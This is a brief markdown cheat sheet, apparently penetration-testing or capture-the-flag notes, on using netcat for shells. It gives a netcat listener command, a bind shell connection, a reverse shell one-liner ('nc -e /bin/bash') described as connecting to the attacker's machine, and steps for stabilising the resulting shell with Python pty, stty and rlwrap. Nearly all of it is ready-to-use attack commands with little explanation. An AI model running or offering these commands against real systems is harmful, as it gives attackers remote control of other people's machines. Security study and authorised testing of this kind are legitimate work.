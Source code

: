 ### Basics
```
nc -lnvp <port>
```
listen for incoming connection on port.
_use sudo when port is below 1024._
_443 is a good port to use._
```
nc <ip> <port>
```
bind shell.
___
### Reverse shell
```
sudo nc -e /bin/bash <ip>
```
connect to attacker machine using bash.
_Effectively establish a reverse shell._
___
### Stabilisation
#### Using Python
```
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```
Then `Ctrl + Z` 
```
stty raw -echo; fg
```
#### Using rlwrap
```
rlwrap nc -lnvp <port>
```
